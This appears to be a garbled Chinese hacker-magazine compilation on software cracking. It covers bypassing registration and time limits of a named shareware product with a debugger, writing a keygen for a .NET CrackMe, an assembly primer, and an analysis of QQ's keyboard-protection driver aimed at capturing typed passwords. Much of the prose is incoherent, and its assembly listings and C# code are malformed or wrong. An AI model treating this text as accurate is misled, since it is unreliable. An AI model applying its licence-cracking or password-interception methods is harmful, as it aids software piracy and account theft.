还有些软件在用时时不提示注册的方法，要用来进行请求，这其实就是`SetTimer`在函数内部的逻辑。`Timer`有三个有用的定义：定时器，n是否允许运行，时间长多久就运行，到期时全部停止，等待。如果难以调试，就需要将它长为 0 可以吗？如果不是及时出现，就是用一个定时器，一个产生器函数，一个调用提示框。只需要循环，像鬼魂一样了。

- `ReadFile`--读取文件
- 读取一个文件
- `OpenFile`--打开文件
- `WritePrivateStringA`--写入到文件
- `GetPrivateStringA`--从文件中读取

这里是用`OpenFile`函数，这些注册的注册操作是一样的，但是有的定义的，它的成员数量是一个注册文件，如果你想要保存，那么再将它写入字符串都是必须的，因为你使用指定的参数函数。`ReadFile`和`OpenFile`是一对，对任意格式的行为写入`WritePrivateStringA`--对于特殊格式化的配置可以使用函数进行具体的，它也可以从自身连接进行使用，一些策略被破解了以后用了这样的方式。

## 四 时间限制

限制时间的作用。在设置时使用计时器限制将它存在一个特定的地方，在使用时也会设置登录系统的系统，在设置时将它读出来，而是给出输出的结果，如果检测到没有过期，就退出或者注册继续运行，这时可以使用使用函数`GetSystemTime`相关，相关的时间计算可以在之后进行，将最后的结果继续显示。

另外一种是限制次数，运行一次计数一次，常见的注册还没有检测到，限制了上面的注册的数据没有了，可以使用简单的函数来限制例如，除非用户允许注册，50的五次限制数在 32，在 OD 中可以使用快捷键”-> 全部命令“数据，”图2所示，如果客户会出数据，我这边办：

| 注册号 | 注册名称 | 全部注册名称 |
| :--- | :--- | :--- |
| 注册号1 | 全部注册名称 | |
| 注册号2 | 全部注册名称 | |
| 执行一个任务函数 | | Ctrl+7 |
| 管理器 | | Ctrl+7 |
| 访问限制 | | Ctrl+7 |
| 特别权利 | | Ctrl+7 |
| 制作操作 | | Ctrl+3 |
| 注册标签 | | |
| 现在在当前注册的 | | Ctrl+3 |

## 五 注册函数

对于在注册时使用的注册信息，多次数据可以使用`GetPrivateStringA`和`GetDlgTextA`来获取信息，编写插件的技巧是不同的，相同例如多种化的，比如这种方式，就不用特别了，另编程方面，注册信息的取法是不一样的，应注意，这个问题可以在文中说明。

- 在软件运行时需要注意注册信息来引起软件，如果注册的注册数据取决于信息、性能不能用。遇到我们常见的情况是，注册信息的主要就是使用注册表查询，注册根据插件的信息，结束通过字符串找到一个字符串作为机器器的标识（亦称注册ID），ID的。通常，需要使用使用函数`DeviceControl`，注册插件中使用`XXX`来写你已经注册的，或者使用注册的函数来创建。前一个例子可以用插件点创建，后的应该使用全全搜命令的方式进行。在 OD 中可以使用右键查看搜 -> 全部命令。在弹出的对话中输入`CPU`，图13所示，回车后，所有找到的指令会被执行下，删除。


如果采用的是硬盘逻辑驱动的卷标，则一定使用的函数`GetVolumeInformationA`，为了为什么说这种方法是这样的呢？因为卷标可以被化的。

## 六 磁盘锁定


www.backer.com.cn | 版所有 2008年毕业版

化的，我们每装一次操作系统，或者格式化盘，再改变一次。软件的机器就能看到变。我写软件已经通过了，现在就不能用，你不能吗？而我经常更新，特殊的时候可能下载一次后，重启电脑就能运行下载的操作了，可以吗？

Registration You need to copy the code received from OD 输入后，You can use if it is in the clipboard. Then CTRL+C to copy selected item. And then click the 'Registration' button A correct

```
TimeLock,
Name
Paste Code
```

exe. 选择字符（要先浏览，Technical support

support@...

Contact here

）

对于这些来说可能不是动态 DLL 要用吗？这些 API 全都在 DLL 中吗？

Free runs left

Registration

不确定如此，但是，软件的注册吗？作者写了自己的 DLL吗？我一样的软件注册吗？作者又写了几个 DLL，可能需要注册？如果用你的注册只是可以简单的。Get Registration program 我们知道 DLL 是动态加载的。软件用它就加载，不需要在内存中（可能就是你得到的软件在时刻，你用它来注册的）这像彩色骰子，而不是挂的14

```
0043BF6 MOV EDX,AX,00474050
00476512 ADD EAX,1234
0043BF6 MOV EDX,AX,00474050
00475A67 AgataSoft.Install(TimeLock)
00475B77 XOR EAX,EAX
0043CD9 DD EAX,00002F8*1234567812345679*
```

那么我们在什么时候注册？如果实后使用了 DLL 来注册，最好的时机就是注册写入成功后的时刻，这时你需要下载了。

```
00476EE7 EDX,AX,00474038
0047FC7 EDX,AX,004740B3
00475A67 AgataSoft.Install(TimeLock)
00476FB EDX,AX,00474038
00470D4 EDX,AX,00740C
00475AA7 AgataSoft.Install(TimeLock)
```

怎么办注册？如果用“pxk”个人（把“DLL”）上去？在注册列表中尽量选出名字最好，或者写出来就完了（不能相信上了），接下来的你就靠自己了用代码表示数字和字符。以代码表示数字和字符。我们先考虑后的注册我们将把`12345678912345689`作为注册码输入得到的如图15所示，注册正确？这没错？我不懂可以注册，或者可能会被删掉？有可能是一个注册系统吗？哦，但是你是为了“`12345678912345689`”作为注册码，输入后

```
AgataSoft-TimeLock
AgataSoft:TimeLock
AgataSoft:TimeLock
AgataSoft:TimeLock
AgataSoft:TimeLock
Supporting
Password is disabled, click "Registration" button
```

今天的还是一个动态的姐姐注册电脑时，可以用它们在他们的特定点激活的软件，超过注册时间，软件就会失效，你会等到合适注册它，以及密码计算机软件的官方网址：http://nagasoft.com/15

这个软件在启动时有一个关于注册的对话框，如图4所示，你输入姓名和密码进行注册，点击按钮后不可用的。随意注册信息点击按钮是动态的，这种情况下，一般方法都是无解的。每秒弹出一个错误信息根据注册的标记，用字符串“`reg`”作为码的编写，将断点在`0047677`以及`00476FF`处，并跳转`GetKeyAXiRegValueAst`


## 函数参数，按 F9 运行后来到

```
0047467 EDX,Agata.Agata04730
0047468 ASCII 'reg'
0047470 EDX,Agata.Agata04730
0047471 ASCII 'Software\Agata\Agata\Tick_Lock\Option'
0047474 EDX,Agata.Agata04780
0047475 ASCII 'Exh\0'
```

我们以后调试代码，在如下代码处下断点。使用 CTRL+F2 重置。

```
0047484 EDX,Agata.Agata04780
0047485 ASCII 'Exh\0'
0047490 EDX,Agata.Agata04780
0047491 ASCII 'Value\name'
0047492 EDX,Agata.Agata045D8
0047493 MOV EWORD PTR [ESP+4], EDX
0047494 CALL EDX,Agata.Agata0469C0
0047495 MOV EWORD PTR [ESP+8], EDX
0047496 PUSH EAX
0047497 PUSH EAX
0047498 MOV SHORT [ESP], 14
0047499 PUSH EAX
0047500 MOV EWORD PTR [ESP+4], EDX
0047501 CALL EDX,Agata.Agata03B9E
0047502 MOV EDX,Agata.Agata03B9E
0047503 PUSH EAX
0047504 PUSH EAX
0047505 MOV EDX,Agata.Agata07520
```

按下 F9 运行，可以看到一次点：

```
0047512 EDX,Agata.Agata021D4
0047513 ASCII 'hkey_reg'
0047514 EDX,Agata.Agata07484
0047515 ASCII 'Value\name'
0047516 EDX,Agata.Agata02145
0047517 ASCII 'Reserved'
0047518 EDX,Agata.Agata02F27
0047519 ASCII 'Value\type'
0047520 EDX,Agata.Agata02F38
0047521 ASCII 'Buffer\data'
0047522 EDX,Agata.Agata01F74
```

从这一段代码中看到注册的名为字符串，在注册表编辑器中搜索，n的名字是一个字符串，在注册表中找到“`n`”和“`oxetu`”，其键值为`95809355`，然后重新启动调试，查看注册表。如图16所示，软件已经正确了。发现的注册函数，注意注册表中项被加密了，所以注册后，我们再看一下结果！呵呵，这个软件注册方式就是加密的。

| Name | Type | Data |
| :--- | :--- | :--- |
| `h_reg` | `REG_SZ` | `hkey_reg` |
| `Value\name` | `REG_SZ` | `Value\name` |
| `Reserved` | `REG_DWORD` | 0 |
| `Value\type` | `REG_DWORD` | 1 |
| `Buffer\data` | `REG_BINARY` | ... |


这个参数是对字符串“`uu`”进行加密的，密后的值为`95809355`。我们在这里注册，然后按 F8 运行，由于发现它是加密成功的，点击之后会再次显示的界面（断点处）。来到这里了。

```
0047564 EDX,Agata.Agata07360
0047565 ASCII 'reg'
0047566 EDX,Agata.Agata07360
0047567 ASCII 'Software\Agata\Agata\Tick_Lock\Option'
0047570 EDX,Agata.Agata07300
0047571 ASCII 'Exh\0'
```

这里注册了。

```
0047572 EDX,Agata.Agata021D4
0047573 ASCII 'hkey_reg'
0047574 EDX,Agata.Agata07484
0047575 ASCII 'Value\name'
```

| Name | Type | Data |
| :--- | :--- | :--- |
| `hkey_reg` | `REG_SZ` | `hkey_reg` |
| `Value\name` | `REG_SZ` | `Value\name` |
| `Reserved` | `REG_DWORD` | 0 |
| `Value\type` | `REG_DWORD` | 1 |
| `Buffer\data` | `REG_BINARY` | ... |

来到这里了。从注册信息中，怎么获取信息？怎么把信息组合成我们想到的结果？这就太大了。要找到，通过汇编器查看，这需要真实的经验，需要经历一段一段的调试，最后你就会逐渐成为高手。出现问题：“`Confirm`”是一个确认对话框，它已经运行完毕，然后点击注册按钮。正确的注册按钮是“`OK`”，按它就能继续运行。不过，这里的注册信息是存在的，这个按钮是定位为了关键点，我们为了保持状态就在这里重复调试。

好了，我们先说这么多吧，大家下回见！

## .net 程序

适合读者：爱编程爱好者

前置知识 .net

## 手把手教你 net程序加密解密

### 入门.net程序破解

2002年，微软推出了一个新名称：net，如今，构建基于net框架的程序比最新的Vista中已经包含了内部的net框架而无需额外安装。基于框架的软件会有相关的加密，与本文所涉及的一系列技巧将带来大家震撼，net程序与加密解密的魅力，学习基础的.net分析及调试技术。

有静态分析和动态调试，下面将介绍net程序的静态分析方法。

`sample.exe`是一个最简单的net程序，由C#编写，源代码在`cs.cs`中，从编译到开始在Visual Studio中调试只需点击，如图1所示！进入汇编，来到`sample.exe`的所在目录，运行`sample.cs`。


什么是net？一句话还不清楚，从这里开始了解相关的概念，net是一个独立于系统的框架，类似于Java，常见的2.0版本已经包含了net程序的运行过程与Windows平台不同的，传统的Win32/64程序的执行文件中保存的是中间语言，而在程序文件中保存的是MSIL代码，由CLR运行时将MSIL代码解释。因此，net文件中包含元数据（Metadata），是描述该程序如何运行的，意味着很多时候，它本身并没有信息，在后续分析中通过这些操作来理解它。为什么要加密程序？为了防止由于net具有特殊的特性，反编译可以还原源代码，后再重新编译即可运行，或者某些情况下（如修改部分代码），必须对程序进行调试。

首先选择一个强大的反编译器：`dnSpy`，它的功能是反编译（支持C# 和 VB）显示源代码，反编译的结果与作者的代码一模一样，你可以在类中执行右键选择“反编译到源代码”，如图所示


由于自带的操作系统内置了net，我们不需要额外安装，可以使用现在的Windows和net版本进行操作。详细调试环境的构建，首先在下载.NET Framework 2.0开发工具包（包含了运行时和SDK），net程序的调试工具条件你可以直接在Visual Studio 2005中，查看已经发布的程序，尝试调试后运行`sample.exe`，如果运行正常，代表net编译成功了。

### 调试静态net程序

感谢感兴趣的读者留意调试程序的分析方法。还有一些，如果我们在运行之后再调试，这里可能会有一个问题：反编译后的代码中诸如“6b786”这样的字符串，这些字符串在源代码中的字符串，通过本文提供的`StringParser`可以将转换为字符，如图3中的“密码代码”，如图4所示：

```
entrypoint
    int public hasid_status void main
        count = 2;
        while (true)
        {
            do break;
            il0001: dump("716163747273"); // 翻译为"attacks"
            il0002: dump(System.String.Equality(string
            il000k: 
```


# Sample.exe 分析与修改


`Sample.exe` 的程序很简单，静态输入我目了比较用户的输入。若是要确定的字符串，在这里显示相应的正确或错误；对于加密的内容，在其他地方找到对应的方法。写注册或者破解，这个例子自然不需要注册，而是破解。下载修改程序补丁的办法：

## `config.net` 修改

破解的方法最后一种是反编译，直接反编译到三级程序。第一种方法我们需要使用 SDK 提供的 `ILDasm` 和加密程序，用 `ILDasm` 打开 `sample.exe`，这里使用“导出 `dump`”方法，在弹出的对话框中点击“确定”。可见，图6所示。这里有了结构、参数就可以修改，使用 `MSBuild` 我们创建了这些文件，然后用 `dump`。


| | |
| --- | --- |
| `Dump Inventory CtrlB` | `null beforeinit` |


我们想要对字符串加密，为了防止，但是比起 Windows32 编译器得到的，有了更多的加密程序。这里的处理程序就是输入与字符串 `tankaih` 结果是 1 或者 0；我们将再次进行比较，如果第二次的结果是 1 的话，就是用户的输入错误，那么在 `brtrue.s` 处跳转到错误信息处；如果第二次的结果不是 0，则不跳转继续执行。

```text
il001b: "tankaih"
il001c: call bool(String.Equality(string
il001d: 14.0
il001e: void
il001f:
il001g:
il001h: // brtrue.s
```

代码中要修改 `brtrue.s` 程序。

# SECRET OF CRACK

适合读者：破坏者

前知识介绍

## 手把教你 .NET 程序加密之旅

## 名流的重量

文/takahashi(ver.cn)

上次介绍过一遍 .NET 程序相关的基础知识，大家一定觉得很容易吧？从本期开始，我们将 ART 团队的 `netCrackMe` 作为实例，由浅入深地介绍 .NET 程序加密的实战技巧。今天，我们要分析的程序是系列中的第一个 `CrackMe`，它介绍了如何保护你的程序的方法，包括重命名、混淆和加密字符串。下面，我们将开始——一步步分析这个程序，并在分析过程中详细介绍加密的保护方法。

可能方法不可行的。第二方法是字符串搜索，就是在搜索中包含一些敏感信息的字符串，并分析这些字符串的代码。由于这种方法在 Win32 下并不常用，在本例中，我们没有找到像名为 `Register` 或者类似 `Invalid key` 这种可以用来识别的敏感字符串，但是如果你在 `Refactor` 中搜索，结果发现程序的代码被加密了？

注册程序的注册通常是先运行一遍，以理解它的注册方式。这个 `CrackMe` 让用户输入注册，并报错提示：`OK!` 所示。这是我们目前的注册方式。

## 加密程序


图1

除了内核级保护的程序外，通常的 .NET 程序都可以通过字符串分析来破解。在 `CrackMe` 中，我们使用 `Reflector` 进行注入，如你所示程序中的字符串，其中许多与相关的字符串都被加密了，比如名流名称、混淆后的字符串、方法和参数等。

## 静态分析

分析 `Register` 函数对应的代码，分析我们如何定位找到加密字符串的。对于这个小小的 `CrackMe`，我们可以通过调试，但对于这种类型的程序，


图2

下面是如何定位加密代码的，由于我们利用了 `Reflector` 的分析方法，分析如何找到这个加密字符串。需要注意的是，对于字符串，这并不是一个方法，因为一个程序中可能会在多个处存在一个用来加密字符串的方法，所以我们最好是在程序执行过程中最终得到一套已分析的整体。

在静态方法上选择 `Register`，在分析窗口中使用“断点”定位，找到用于加密字符串的方法，这里就是程序，其中两个参数的就是 `(Object, EventArgs)`。了解 .NET 程序的读者就会知道，不是这个的事件，注册的方法就是这样的，如图4所示。


图3

www.hacker.com.cn © 2006-2008 黑客社区所有 | 星非涛

## 注册算法与注册机

比如这里的注册算法。下面我们就可以直接利用原程序的代码来重写注册机，新建 `reg.cs`，并在其中输入我们的注册码。

```csharp
using System;
public class Reg
{
    public static void Main(string[] args)
    {
        string right="注册用户名";
        byte[] bytes = Encoding.ASCII.GetBytes(right);
        int num = 0;
        for (int i=0; i<bytes.length; i++)
        {
            num += bytes[i];
        }
        Console.WriteLine("注册用户：" + num);
    }
}
```

只有这两处的话就已经很好了。然而，第二处 `(Object, EventArgs)` 就是注册按钮的代码。在编辑器中点击“`Go to`”，我们可以用这种方法找到它。


## 算法分析

到这里，我们已经定位到关键代码，我们可以用分析来破解算法，如下所示：

```csharp
private void OnClick(object sender, EventArgs e)
{
    if(this.Text == "注册")
    {
        MessageBox.Show(0x758,"注册成功",MessageBox.OK);
    }
    else if(this.Text == "登录")
    {
        MessageBox.Show(0x769,"登录失败",MessageBox.OK);
    }
    int num = 0;
    byte[] bytes = Encoding.ASCII.GetBytes(this.Text);
    for (int i=0; i<bytes.length; i++)
    {
        num += bytes[i];
    }
    while(num > 0x100)
    {
        num -= 0x100;
    }
    Console.WriteLine("注册用户：" + num);
}
```

很明显的，这里的 `while` 循环是直接反编译原程序的。所以我所做的修改是将原程序中的参数改为用户自己输入。如果不在反编译中修改，应该把 `num = 0` 的赋值放在循环外，然后在 .NET SDK 中新建 `reg.cs` 后就能破解，得到注册的码，我们就可以自己注册了。

由于反射器将原程序反编译为 C# 语言的形式，所以反编译比反汇编简单得多，虽然反汇编译比反汇编语言要困难，但是我们可以通过判断跳转，进入第三步判断对用户输入进行循环计算，存储在 `right` 中，并与注册比较。在这里反射器里发现一个小小的错误，你能看到吗？

图5所示，我们将得到


## 注册的码

注册的码如下：

看看结果，我们看到图6算法是正确的。


很多时候，.NET 代码是可以直接利用的。

这个 `CrackMe` 是系列中的第一个程序，它的逻辑非常简单，对很多人来说，通过对代码的分析，我们了解了它如何工作，如何利用反射的功能来定位关键代码。

用自己的程序来重写注册机，反编译编译器毕竟是自动的，不保证反编译出来的代码是正确的。正如我们所看到的那样，就需要用我们程序的知识来辅助反编译。

下次我们会尝试分析第二个 `CrackMe`，希望更有挑战性，请大家多加期待！

www.hacker.com

# 汇编语言之美

## 汇编标记与调试

汇编，现在是一个被遗忘的概念，历史上的汇编是一个动词，指的是将源代码汇编成机器的过程，就是汇编代码。这些代码能够被汇编成机器码，而对于机器的主人后来发现它似乎非常复杂，是非常困难的。

对于和机器的陌生的人来说，他们不得不寻找一个方便明确用英文的语言来对机器的功能编写相应的汇编，并且这些汇编与一个或多个第一代语言的汇编同一。对于机器的初学者来说将一个汇编调试符，我们可以把那些复杂的机器码，只写成一个调试的汇编代码，非常容易，难度大大降低，而且就不需要检查和查询了。

而对于机器来说，你不需要在它要写好了什么，机器并不知道你做什么，为了方便一个开发者，为了解决这个问题，我们编写了一个调试，就是汇编标记与汇编代码进行调试。我们需要调试机器码时，汇编标记（现在为标记的调试程序）将汇编代码翻译成机器码，用的语言的汇编器，以便方便调试，常用的调试程序就需要这种程序了。

## 汇编指令

汇编，现在是一个被遗忘的概念，历史上的汇编是一个动词，指的是将源代码汇编成机器的过程，就是汇编代码。

## 数据移动

高效的数据移动是通过 `MOV` 指令来读取存储器。

常见的跳转指令：

- `JMP`：绝对跳转
- `JMP`：短跳转
- `JMP`：长跳转
- `JZ`：零跳转
- `JNZ`：不零跳转
- `JE`：相等跳转
- `JNE`：不等于跳转
- `JL`：小于跳转
- `JG`：大于跳转
- `JBE`：无符号小于跳转
- `JAE`：无符号大于跳转
- `JZ`：无符号相等跳转
- `JLE`：符号小于跳转
- `JG`：符号大于跳转
- `CALL`：调用函数
- `RET`：返回函数
- `PUSH`：入栈
- `POP`：弹出栈
- `MOV`：数据移动
- `NOP`：空操作

## B) 算术运算符

算术指令的标识符形式有 `FADD`（加法）、`FSUB`（减法）、`FMUL`（乘法）和 `FDIV`（除法），其操作是可以通过观测指令的特征。

### (1) 赋值运算符

| 标识符 | 说明 |
| --- | --- |
| `FSQRT` | 平方根 |
| `FSALE` | 舍（入）整数 |
| `FPREM` | 舍（四入）整数 |
| `FRNDT` | 取整（五入） |
| `FSIN` | 求正弦 |
| `F2XMI` | 整数 |
| `FYLX` | 浮点数 |
| `FCOS` | 余弦 |
| `FPTAN` | 正符号反正 |
| `FPATAN` | 负符号反正 |
| `FSINCOS` | 正弦余弦 |
| `FY2LXP1` |  |

这里这些指令可能我们还忽略到不可忽略了吗？问了是从哪里呢？又有什么呢？比如 `FADD %reg1, %reg2`？我们是怎么理解的呢？

比如你编写汇编吗？我们的理解是如此，比如你来编写汇编系统吗？是可以进行汇编优化的，而这些函数一般不是你自己写的汇编代码，而是汇编器帮你写汇编代码的，我们要的是汇编的效率，懂汇编的人就懂了，我们可能要自己做什么呢，这就是我们要做的。

关于优化算术指令的操作技巧，网上的资料很难找到，这个问题，我在几年前就遇到过，可能是由于……不说了，我不后悔没说就好了了。

汇编懂多少，不是一半就能学会的，也不是一句话就能听懂的，需要从头开始，毕竟汇编是一门语言，你还需要在“实践”中深化体会。

# 算法剪枝

软件作者的代码通常是源代码。经过汇编器转换后，就是汇编语言（机器语言）。机器语言是不易读的，之所以是在调试时将它的机器码转换成汇编语言，看起来是很困难的。明了，作者的意图在我们转换中是非常困难的。在转换中发生了了很多变化，基本上是不可能的。这离我们还不远了。来的是数学数学计算，经过很多经历，大学毕业后还不听过。所以对于很感兴趣的算法分析之题，让很多无者甚至想不想，得费费心思，想想再，

都是用汇编语言的！不知道哪个符号是八赋值：

且懂，累了，我今天些些什么？今天我们写一些汇编代码例，来说汇编代码例，我们应该如何理解。

从汇文来看，`TEST` 是为了测试 `E` 和 `EAX`。汇编指令中，`TEST` 需要两个操作数，但一个 `EAX` 是不需要保存寄存器的值的。怎么理解这个 `TEST`？

定义 `TEST`：`TEST` 需要两个操作数，并不修改操作数的值，只修改目标寄存器的标志位。由于 `TEST` 是位与运算，`EAX` 的位就是结果。所以测试的结果就是测试结果，如果是显然的测试结果为不符合预期，这样，只有一个 bit 的测试结果就是 0。但是，在 `TEST` 中的位跳转的 `EAX` 的数据就是 0。如果不是 0 就会发生跳转，否则就不跳转。用类汇编语言来进行描述，这里的源代码是这样的：

```
if XX != 0
endif
```

或者：

```
((X == 0))
```

软件中很多地方会出现这种类型的语句，例如判断语句，注册就是赋值，判断是否正确。等。当然，判断是否相等可以使用 `CMP`（比较）指令来实现，这也是一种测试方式，也可以进行相同数据的测试，例如：

```
004B6E25 TEST DL,DL
004B6E28 SETA EAX
004B6E2B MOV PTR [BYTE],EAX
```

这是 `DL` 的 8 位字节（一个字）。整个的意思是，检测中的 `b4`，检测结果在 `AL` 中。


设置标志，最后将检测结果保存起来。那么，怎么处置这里的计算方法呢？

假设 `DL = 00111111`，`AX = 00000000`，因此 `DL` 和 `EAX` 相等，结果很低，因此应该如 `AL = 1`。知道了这样要求的标识，以后可以用下列代码来表示。


``` 
if XX < 0
  flag=1
else
  flag=0
endif
```

或者更简单的形式

``` 
flag=(XX==0);
```

【例2】

``` 
0004BE00 AND EAX,EDX
```

优这样的代码你应该见过很多了。它可以理解为“与位运算”，其实它的操作将`EAX`的高位40，并保持8位数据不起来，就是“移位”的作用。如果用我的方法来分析字符串中来移位，那么由于它和之前的代码并不应该这样处理，例如

``` 
0004BE00 AND EAX,EDX
```

它的作用就是从指定位置(bit)提取，去掉无关的内容，这些内容并不是进位所以它所称之为“取零”。

【例3】

``` 
MOV EAX,EDX
SHL EAX,8
OR EAX,012345678h
SHL EAX,18h
AND EAX,00000000h
```

注意，`SHL EAX`中的数据中的位移左8位实际上是一次完成的，还有比如`SHR EAX,18h`向右24位，所的效果就是结果=72856，而结果=24167726，从得到的结果就就结果了。

这样可能理解不了，但用位移的方法来找到。

—— 初始化，`EAX=12345678h`，执行`SHL EAX,8`，而`EAX=34567812h`，而`SHR EAX,18h`，执行`AND EAX,00000000h`，结果是`EAX`，就是把高位数移到了高位，低位的数据就到了高位了，这就就是循环位移的操作。此时，由于4行代码的共同的操作就是循环位移（高阶语言没有类似的指令）。一句话，例如（左移8位）就描述了这种方法的计算，如果你还能理解到循环？为什么？【例4】

【例4】

``` 
MOV EAX,EDX
XOR EAX,EDX
DIV EAX
```

或者

``` 
MOV EAX,0
XOR EAX,EDX
DIV EAX
```

这段代码的含义是什么？这两段代码的形式不同但是操作是相同的——除法。只不过你理解了吗？这两段代码中，`XOR EAX,EDX`和C语言的操作大致是相同的，都是给`EDX`赋值。除法一次放在`EAX`中，我们和通用的计算器不用，整除指令就会得到余数，相同在`EAX`中，相同在`EAX`中就可以所以结果就是`EAX`。没有错，但是即使我们这样做没有选择的除非你这样做了问题，上面的代码的确是除法不是，`EAX`的具体的操作就是你想看到的操作是这些数据之后你使用的数据是`EAX`中的，这段代码段落就是位移，那么该代码的结果就是C语言中的`<<`或C语言的`>>`）这一代码可能需要前后的关系来确定，这种计算【例5】

【例5】

``` 
0047B73 XOR EAX,EAX
0047B75 MOV EAX,CL
0047B77 SHL EAX,CL
0047B79 DIV EAX
0047B7B MOV PTR [ESP+6],00
0047B7D INC EAX
0047B7F MOV EAX,[ESP+4]
0047B81 MOV PTR [ESP],1
```

这段代码在干什么？从这段代码的操作来看，`EAX`，`CL`中的值是在变化的，而`EDX`的值没有改变，`EAX`中的值就会被除，`CL`从`EAX`中的值计算出来，计算的结果就是`EAX`的变化，这样得出`EAX`作为计算的结果值为n：

# SECRET OF CRACK

根据字符串长度，确定循环次数。`EAX`中的操作作为临时变量`tmp`，字符串每一个字符与`tmp`比较`[SHR, EAX]`进行位移或运算的结果再与`tmp`比较`[D, EAX]`进行位移，如果结果为`tmp`则说明结束。例如：

| | |
| --- | --- |
| 017875 | `MOV CL` |
| 017877 | `SHL E` |
| 017879 | `DEC EAX` |

这几行代码的作用就是`n-1`。显然，`n-1`是为了循环，所以这段代码的作用构造一个计数器个数，用`ECX=6`来执行个数的大小为6且个数减为1，因此，这段代码分析就不需要读汇编，它的逻辑如下：

``` 
for (i=0; i<n; i++) {

    tmp=tmp+s[i];

}
```

简单如此，上面的代码可以用来调试，也可以对字符串校验。如果还是理解，可能太很难吧？

| | |
| --- | --- |
| 005C09 | `MOV EDX,8` |
| 005C0A | `SHL EDI,8` |
| 005C0E | `MOV PTR [ESI]` |
| 005C06 | `SHR EAX,18` |
| 005C0F | `XOR EAX,EAX` |
| 005C03 | `MOV EAX,DWORD PTR [ESI+EAX*4]` |
| 005C0A | `XOR EAX,EDX` |
| 005C0B | `INC ESI` |
| 005C0D | `DEC EAX` |
| 005C0A | `JNZ SHORT 005C09` |

孤立的分析上述代码有些困难，应该结合上下文来跟进。首先，我们知道，计算的结果保存在`EAX`中，如果把输入的值加载到`EAX`中，输出的结果就是`EAX`中的值：“`MOV EAX,DWORD PTR [ESI+EAX*4]+5D6`”这种操作的写法，后紧跟一个“`INC ESI`”指令，因此，`ESI`应该存储字符串的值，输出就是`EAX`中的字符串指针。第三，“`EAX,DWORD PTR [ESI+EAX*4]+5D6`”这种操作的写法，紧跟一个参数`ECX`，数值为6。这种写法比较复杂，且存在某些问题：`DEFA`是一个双字节，表示是一个整数，并且在这里有6个字节。为什么是6？因为`EAX`中能够的范围从00到FF，所以是256-255，256。这里说“`EAX*4+5D6`”通常是常量，在语言中，这是一种字符串处理的方法，比如用户可以使用指针来访问字符串，显示。例如，比如“`MOV EAX,DWORD PTR [ESI]=[EAX]]`”，具体情况需要从汇编器来确定，我们只需要关注处理逻辑即可。

| | |
| --- | --- |
| 005C0C | `PUSH EAX` |
| 005C0D | `MOV EAX,EAX` |
| 005C0F | `MOV EBX,ECX` |
| 005C12 | `MOV EAX,EBX` |
| 005C14 | `ADD EAX,EDI` |
| 005C16 | `LEA EAX,DWORD PTR [ESI+EAX*4]` |

上面的代码加上了这段，其计算的结果就给定的第一个字符串的数值：“`f1(x)=0x12*x+2*4x+3`”。这里得到了第一个字符串的数值，第二个字符串的数值：“`f2(x)=0x12*x+2*4x+3`”。这里也有一个思路，如果这样做运算，那么在程序中是正确的吗？对于这个问题的答案，我还要在文中进行讨论，对于这种方法并不高效，换一种方法试试，用更高技巧的方法来解决，即使你已经学会了汇编语言，你可能想要实现它，如果你不会，建议尽快学习一点，现在对于理解和解决问题可能存在。

| | |
| --- | --- |
| 005C19 | `MUL EAX` |
| 005C1B | `MOV EBX,EDI` |
| 005C1D | `SHL EAX,3` |
| 005C1F | `LEA EAX,DWORD PTR [ESI+EAX*2]` |
| 005C21 | `ADD EAX,EDI` |
| 005C23 | `ADD EAX,2*4+3` |
| 005C25 | `MOV EBX,ECX` |
| 005C27 | `XOR EAX,EDX` |
| 005C29 | `MOV EAX,EBX` |
| 005C2B | `POP EBX` |
| 005C2D | `DIV EAX` |
| 005C2F | 结果`0xFF` |

上面的最后一段，这段代码的计算就清楚了：

# 深入分析与破解

适合者：破解爱好者 西安大学安全实验室 王胜

本文对明文安全控制进行了分析，并针对破解思路进行了详细描述和说明，同时也给出了实验结果。

# 相关差异

在写作之前，我想说明几点：
1）对于破解爱好者，只是从技术角度研究，并不是为了破坏，而是为了交流；
2）任何为了破解编写程序与希望带来帮助，例如逆向；
3）由于本人水平有限，希望这样的文章多多见。在开始之前，我们先看QQ是如何添加键盘保护的。从QQ05版本开始，QQ引入了领先的Protect技术，之后，键盘保护系统就会出现。当连接到服务器时，键盘右侧生成了一套加密机制，当输入明文时，键盘保护系统就会执行加密，使得电脑即使有病毒、程序也能准确地获取明文。

### QQ加密保护分析

QQ加密保护主要依靠的是QQ下载下的三个文件，分别是`npcrypt.sys`、`npckbus.sys`和`npcrypt.vxd`，其中主要是`npcrypt.sys`。在以前的版本中，有些版本病毒会对这几个文件删除或重命名，然后键盘右侧出现小锁图标。只有QQ版本之后才会出现解锁功能，假如你没有电脑病毒，就会因为文件的修改出现同样，目前来说没有大的作用。当然，如果你尝试过这种方法就不在这里了，这种方法或许在其他地方有用，比如驱动（下面介绍）。对于一般的加密，我们可能需要通过对应的加密算法记录按键信息，如果这种方法无效，那就是你还没有找到正确的。我们在QQ加密过程中看到类似“abcd456”时，可能是QQ的加密序列，看到键盘右侧之后，或者定位到某个特征点就可以记录按键的位置。从这里出来，QQ键盘保护在获得保护之后运行，使用Sys++来加密的函数，假如是`WM_TIMEOUT`拦截，一旦加密成功后，QQ就不会跳转到任何位置，或者是一个`WM_SETFOCUS`拦截，然后是处理。以往在以前的版本通过py++拦截，`WM_GETTEXT`即可截获明文，现在的版本是不通了。


无奈之，使用`Win32asm`（或者其他静态软件）对`npcrypt.sys`拦截（由于不同版本的`npcrypt.sys`文件可以修改），我们对QQ207 Beta版本的`npcrypt.sys`进行分析。

# SECTOR OF CRACK

大小为25074字节)，在`npcrypt.sys`的引入函数中引起了`HalGetUserInterrupt`函数，该函数的作用是在密钥时挂起中断，由于我们调用了`HalBeginSystemInterrupt`, `HalEndSystemInterrupt`有关的函数，由于我们可以确保保护系统一定中断上发生过了，在密钥时中断保护已经足够了。我们已经知道了这样做的好处：

- 密码获取在焦点系统之前，丢失后又返回了
- 保护是在中断上发生的。在我们尝试使用`SoftICE`，在密钥获取焦点之前查看了ID表（中断描述表），发现处理中地址是08******。当`SoftICE`获取密钥为焦点后，再次`SoftICE`获取ID表，发现一处中断中我的系统是093的由于我们为npcrypt-F8******或者0191，也就是说在密码处理过程中`npcrypt.sys`修改为0191之后的实现，实际上npcrypt在中断的运行过程中触发了中断，而中断地址是在处理密钥之后发生的，导致丢失后又返回了。在我用`QuerySystemInformation`列表找到所有证明了我的想法，如图2所示。


图2密钥模块结构

